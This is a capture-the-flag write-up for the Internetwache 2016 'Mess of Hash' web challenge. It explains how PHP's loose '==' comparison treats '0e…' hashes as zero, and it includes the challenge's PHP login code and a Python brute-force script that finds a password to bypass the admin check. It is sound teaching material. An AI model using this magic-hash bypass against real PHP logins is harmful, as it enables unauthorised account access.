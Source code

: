 # Internetwache CTF 2016 : Mess of Hash

**Category:** Web
**Points:** 50
**Solves:** 143
**Description:**

> Description: Students have developed a new admin login technique. I doubt that it's secure, but the hash isn't crackable. I don't know where the problem is...
>
>
> Attachment: [web50.zip](./web50.zip)
>
>
> Service: <https://mess-of-hash.ctf.internetwache.org/>

Sources: <https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web50/code>

## Write-up

Writeup by [unicornsasfuel](https://github.com/unicornsasfuel)

PHP is weird. No doubt about it. There are a lot of quirks.

One of PHP's quirks is that strings will be interpreted as numbers in scientific notation if they are in the right format, specifically <number>e<number>. If such a number starts with `0e`, it is effectively `0`. If two strings match these parameters and are compared through the double-equals operator (which, importantly, allows for type conversion from string to number), they will always match as they are both effectively `0`.

It is possible for a hashing algorithm to produce such a hash, though the chances are roughly one in 200 million. Through CTF challenge magic, the admin hash `0e408306536730731920197920342119` matches these conditions.

~~~PHP
<?php

$admin_user = "pr0_adm1n";
$admin_pw = clean_hash("0e408306536730731920197920342119");

function clean_hash($hash) {
    return preg_replace("/[^0-9a-f]/","",$hash);
}

function myhash($str) {
    return clean_hash(md5(md5($str) . "SALT"));
}
~~~

There are published values whose md5 sums match these conditions, but as we can see above, the hashing algorithm is custom, so we must perform our own search. Below is a Python solver script which provides us the password we need:

~~~Python
import md5
import string
import sys

def do_0e_check(inhash):
   if inhash[:2] == '0e':
      print 'hash %s begins with 0e' % inhash
      if all([char in string.digits for char in inhash[2:]]):
         return True
   return False

i = int(sys.argv[1])
answer = 0

print "Starting cracking process..."

while True:
   hashcandidate = md5.new(md5.new(str(i)).hexdigest()+'SALT').hexdigest()
   if do_0e_check(hashcandidate):
      break
   else:
      i += 1
      if i % 100000 == 0:
         sys.stdout.write("\rCurrent i value: %s" % i)
         sys.stdout.flush()

print "Answer found: md5(md5(%s)+'SALT') matches" % (i)
~~~

Logging in with username `pr0_adm1n` and the found password results in a successful login and the disclosure of the flag.

## Other write-ups and resources

* <https://forum.xeksec.com/f138/t88657/>
* <https://www.xil.se/post/internetwache-2016-web-50-simonvik/>
* <https://eugenekolo.com/blog/internetwache-2016-ctf-writeups/>
* <https://blog.amishsecurity.com/internetwache-ctf-2016-web50-mess-of-hash/>
* [P4 Team](https://github.com/p4-team/ctf/tree/master/2016-02-20-internetwache/web_50)
* <http://pastebin.com/K4xGYGMK>
